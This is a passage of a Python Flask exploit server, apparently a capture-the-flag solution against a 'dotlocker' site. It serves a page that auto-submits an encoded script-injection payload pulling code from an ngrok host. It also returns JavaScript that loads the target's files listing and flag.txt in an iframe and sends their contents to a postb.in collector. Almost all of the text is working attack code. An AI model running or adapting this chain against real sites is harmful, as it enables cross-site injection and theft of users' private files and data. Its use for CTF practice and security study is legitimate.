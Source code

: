 ```python
          </div>
        </div>
    </form>

    <script>
        document.x.text.value = decodeURIComponent('%69%66%20%5b%20%3c%2f%73%70%61%6e%3e%3c%73%63%72%69%70%74%20%73%72%63%3d%22%68%74%74%70%3a%2f%2f%33%66%35%66%35%31%30%35%34%31%63%34%2e%6e%67%72%6f%6b%2e%69%6f%2f%73%63%72%69%70%74%2e%6a%73%22%3e%3c%2f%73%63%72%69%70%74%3e%20%5d%3b%20%74%68%65%6e')
        document.x.submit();
    </script>
</html>
"""

@app.route('/', methods=['GET','POST'])
def index():
    return Response(HTML, mimetype='text/html')

@app.route('/script.js')
def script():
    print(request)
    return """
var iframe = document.createElement('iframe');

// Phase 1 iframe should load the files directory
//iframe.setAttribute('src', 'http://dotlocker.hackthe.vote/files/');

// Phase 2 iframe should load the individual file
iframe.setAttribute('src', 'http://dotlocker.hackthe.vote/files/flag.txt');

// Phase 1: enumerating all the files
// iframe.onload = function() { 
//     let files = [];
//     iframe.contentDocument.documentElement.querySelectorAll('.box').forEach((item) => { files.push(item.innerText) })
//     var img = document.createElement('img');
//     img.setAttribute('src', 'https://postb.in/1603684417670-7872029298450?' + new URLSearchParams({
//         files: files,
//     }));
// }; 

// Phase 2: getting file contents
iframe.onload = function() { 
    var img = document.createElement('img');
    // Ship everything off to postbin for capture
    img.setAttribute('src', 'https://postb.in/1603684417670-7872029298450?' + new URLSearchParams({
        content: iframe.contentDocument.documentElement.innerText,
    }));
}; 

document.body.appendChild(iframe);
"""

if __name__ == '__main__':
    app.run(debug=True, host='127.0.0.1')
```